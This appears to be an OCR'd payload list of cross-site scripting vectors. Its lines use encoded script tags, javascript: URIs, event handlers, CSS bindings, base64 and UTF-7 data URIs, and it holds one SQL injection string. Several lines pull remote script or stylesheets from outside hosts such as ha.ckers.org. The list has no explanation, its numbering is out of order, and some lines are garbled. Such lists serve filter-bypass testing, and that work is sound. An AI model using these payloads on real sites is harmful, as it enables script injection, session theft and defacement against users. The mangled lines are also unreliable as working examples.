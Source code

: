 31) <form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>
22) <object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
<img src=`&#14&#106&#97va&#9&#115&#99ript&#58ale&#114t&#47&#x2a&#102" alt="" /> 
<script>location=<text>javascr{new Array}ipt:aler{new Array}t(1)</text></script>
<meta HTTP-EQUIV="refresh" CONTENT="0;url=javascript:document.vulnerable=true;">
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
22) <form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS
 
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=alert(1)></a>">
<!DOCTYPE> <div style="background:url(http://foo.f/f oo/;color:red/*/foo.jpg);">X
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
<img """><script>alert("XSS by \n1")</script><marquee><h1>XSS by 1</h1></marquee>
perl -e &#039;print \";<;SCR\0IPT>;alert(\";XSS\";)<;/SCR\0IPT>;\";;&#039; >; out
perl -e &#039;print \";<;IMG SRC=java\0script:alert(\";XSS\";)>;\";;&#039; >; out
<;STYLE>;BODY{-moz-binding:url(";http://ha.ckers.org/xssmoz.xml#xss";)}<;/STYLE>;
<a href="data::,&#x25;3Cscr&#37;69pt>%5Cu0061lert(1)</&#X00025;73cript>">XSS</a> 
"><script>eval(location.hash)</script> //where the url hash is: #0={};<<payload>> 
<STYLE>li {list-style-image: url(\"javascript:alert('XSS')\");}</STYLE><UL><LI>XSS
<body background=javascript:'"><script>alert(navigator.userAgent)</script>></body>
28) <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
8) <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>
<a style="behavior:url(#default#AnchorClick);" folder="javascript:alert(1)">XXX</a>
40) &#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
<XML ID="xss"><I><B>&lt;IMG SRC="javascript:alert('XSS')"&gt;</B></I></XML>
10) <iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>
window[Boolean[-6][5]+Boolean[-6][3]+Boolean[-6][4]+String[-6][2]+String[-6][1]](1)
/*@cc_on@set@x=88@set@ss=83@set@s=83@*/@cc_on alert(String.fromCharCode(@x,@s,@ss))
<;EMBED SRC=";http://ha.ckers.org/xss.swf"; AllowScriptAccess=";always";>;<;/EMBED>;
String(/http:/+/www.x.se/+(/x/+[])[1]+(/m/+[])[1]+(/8/+[])[1]+(/#/+[])[1]).slice(1) 
<body onscroll=alert(1)><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
'"></title><script>alert("XSS by \n1")</script>><marquee><h1>XSS by 1</h1></marquee>
<meta http-equiv="refresh" content="0;url=javascript:document.write("XSS-XSS-XSS");">
<img """><script>alert("XSS by \nxss")</script><marquee><h1>XSS by xss</h1></marquee>
<META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http://;URL=javascript:alert('XSS');\">
<style>BODY{-moz-binding:url("http://www.securitycompass.com/xssmoz.xml#xss")}</style>
<XML SRC="xsstest.xml" ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
javascript:window[490837..toString(1<<5)](8680439..toString(30))(580049..toString(30))
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
29) </style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<head><base href="javascript://"></head><body><a href="/. /,alert(1)//#">XXX</a></body>
x=eval(eval(eval(eval(eval))), alert(/1/</xmp><script>alert(1)</script><!--));x=eval(x)
<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script>
15) <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
25) <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>​
50) </svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}
<div style="font-family:foo{bar;background:url(http://foo.f/oo};color:red/*/foo.jpg);">X
34) <a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>
data:text/html;charset=utf-7;base64,Ij48L3RpdGxlPjxzY3JpcHQ+YWxlcnQoMTMzNyk8L3NjcmlwdD4=
a="get";&#10;b="URL("";&#10;c="javascript:";&#10;d="alert('XSS');")";&#10;eval(a+b+c+d);
<;META HTTP-EQUIV=";Link"; Content=";<;http://ha.ckers.org/xss.css>;; REL=stylesheet";>;
<;STYLE type=";text/css";>;BODY{background:url(";javascript:alert(';XSS';)";)}<;/STYLE>;
<STYLE>li {list-style-image: url("javascript:alert(&#39;XSS&#39;)");}</STYLE><UL><LI>XSS
<div/style=\-\mo\z\-b\i\nd\in\g:\url(//business\i\nfo.co.uk\/labs\/xbl\/xbl\.xml\#xss)> 
'"></title><script>alert("XSS by \nxss")</script>><marquee><h1>XSS by xss</h1></marquee>